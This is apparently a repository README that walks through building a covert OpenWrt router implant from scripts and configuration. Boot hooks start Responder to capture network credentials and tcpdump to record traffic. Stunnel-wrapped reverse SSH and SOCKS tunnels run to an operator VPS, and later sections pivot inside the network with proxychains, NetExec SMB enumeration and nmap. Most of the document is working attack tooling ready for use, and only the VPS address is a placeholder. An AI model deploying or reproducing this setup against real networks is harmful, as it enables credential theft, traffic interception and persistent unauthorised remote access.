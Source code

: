 # Openwrt Implant

Device I've been testing on: https://www.gl-inet.com/products/gl-ar300m/

USB I've been using: https://www.pny.com/elite-x-fit-usb-3-1?sku=P-FDI64GEXFIT-GE

The post I used to get the usb drive to behave properly: https://forum.gl-inet.com/t/mifi-install-package-on-external-storage-usb-or-sd-card/4332

- There are still issues here and there, but it works for everything I configured it for.

------

- When installing python to usb, symlink to `/usr/bin/python` via command: `ln -s /mnt/usb/usr/bin/python3 /usr/bin/python`
	- This will let pip work properly instead of returning "command not found" since the package is installed on the usb, but the shebang is set to /usr/bin/python which can be checked via `head -n 1 /mnt/usb/usr/bin/pip`

------

Enable `ipv6` on command line:

```ruby
uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload                                                                     
service network reload    

uci commit wireless                                                                  
uci commit network
```

For some reason the interface is disabled and it has to be enabled on wan which is pointed to `eth0`

------

To start responder on boot:

```bash
#!/bin/sh  

today=$(date +%m_%d_%Y) 
log="$today"_output.log 

/mnt/sda/usr/bin/python3 -u /mnt/sda/Responder/Responder.py -I eth0 -wF -v >> /mnt/sda/logs/$log 2>&1 &
```

Note: for some reason the Proxy flag makes the database be an annoying little bitch so opted for just `-wF flags`

------

To start tcpdump on boot:

```bash
#!/bin/sh

today=$(date +%y%m%d_%H%M%S)
pcap="$today"_output.pcap

tcpdump -ni eth0 -w /mnt/sda/tcpdump_pcap/$pcap 2>&1 &
```

------

Add to `/etc/hotplug.d/iface/99-ifup-wan`

99-ifup-wan script:

```bash
#!/bin/sh

export USB=/mnt/sda
export PATH=$PATH:$USB/usr/bin:$USB/usr/sbin # This PATH is dependent on existing $PATH
export LD_LIBRARY_PATH=$USB/lib:$USB/usr/lib

uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload
service network reload

# Sleep for 30 seconds so ipv6 can work properly with responder.
# For some reason ipv6 with Responder on OpenWRT is annoyingly finicky and I wasted too much time to want to touch it anymore.
sleep 30

[ "$ACTION" = "ifup" -a "$INTERFACE" = "wan" ] && {                                                   
        logger "iface wan up detected..."                                                     
        sh /mnt/sda/start_responder.sh
        sh /mnt/sda/start_tcpdump.sh > /dev/null # Output anything to /dev/null
        sh /mnt/sda/start_sshproxy.sh # The ssh reverse dynamic proxy script
}                                                                       
exit 0
```

-------
**NOTE: MAKE SURE TO `chmod +x` ALL THE SCRIPT FILES **

#### Stunnel + SSH:

To install stunnel: `opkg update; opkg install -d usb stunnel`

<u>Stunnel config (implant):</u>

Location: `/mnt/sda/etc/stunnel`

```
output  = /mnt/sda/var/log/stunnel4/stunnel.log
cert    = /mnt/sda/etc/stunnel/stunnel.pem
key     = /mnt/sda/etc/stunnel/stunnel.pem
pid     = /mnt/sda/var/run/stunnel4/stunnel.pid
client  =  yes

[ssh]
accept  = 2223
connect = <vps_ip>:443
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

Symlink `/mnt/sda/etc/stunnel` to `/etc/stunnel` so when we run `/mnt/sda/usr/bin/stunnel` in the script without it bitching about the config file.

Command: `ln -s /mnt/sda/etc/stunnel /etc/stunnel`

<u>SSH Script:</u>

Location: `/mnt/sda/start_sshproxy.sh`

```bash
#!/bin/sh

$USB/usr/bin/stunnel

ssh -N -f -p 2223 root@localhost -R 8081:localhost:22
ssh -N -f -p 2223 root@localhost -R 8081
```


<u>Stunnel config (server):</u>

```
output  = /var/log/stunnel4/stunnel.log
cert    = /etc/stunnel/stunnel.pem
key             = /etc/stunnel/stunnel.pem
pid             = /var/run/stunnel4/stunnel.pid

[ssh]
client = no
accept  = 443
connect = 127.0.0.1:22
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

<u>Stunnel config (pc):</u>

```
output = /var/log/stunnel4/stunnel.log
cert=/etc/stunnel/stunnel.pem
key=/etc/stunnel/stunnel.pem
pid=/var/run/stunnel4/stunnel.pid
client=yes

[ssh]
accept = 2223
connect = <vps_ip>:443
```

SSH Commands:

```
ssh -N -f -p 2223 user@localhost -L 8082:localhost:8081 # To ssh onto implant ssh -p 8082 root@localhost
ssh -N -f -p 2223 user@localhost -L 1081:localhost:1080 # So we can proxy everything might not be needed but I don't care right now
```

Refer to proxychains config and example programs below

------
#### SSH Proxy:

###### <u>On router:</u>

Install the client: `opkg update; opkg install openssh-client`

------

- Only the OpenSSH Client is needed thanks to the implantation of reverse dynamic proxy

```ruby
ssh -N -f -R 1080 user@<vps_host>
```

Script:

```bash
#!/bin/sh

ssh -N -f -R 1080 user@<vps_ip>
```

------

- On the vps make sure to enable ufw and only allow the ssh port.
	- Also configure ssh keys whose public key of router and other computer will need to be added to the authorized_keys

###### <u>On personal computer:</u>

```ruby
ssh -N -f -L 1081:localhost:1080 user@<vps_host>
ssh -N -f -D 1081 localhost
```

Edit proxychains:

```ruby
nano /etc/proxychains.conf

...
socks4 127.0.0.1 <port>
```

------

- Run program through proxychains `proxychains <command> <args>`
###### Examples :

<u>NetExec:</u>

- Wiki: https://www.netexec.wiki/
- Install: https://www.netexec.wiki/getting-started/installation/installation-on-unix

------
Command:

```ruby
sudo proxychains /home/alex/.local/bin/netexec smb <local_ip> -u "user" -p "password" --shares
```

<u>Nmap:</u>

- Have to have `-sT`, `-Pn`, and `-n` flags set

------

Command:

```ruby
sudo proxychains nmap -sT -Pn -n <local_ip_range>
```

------
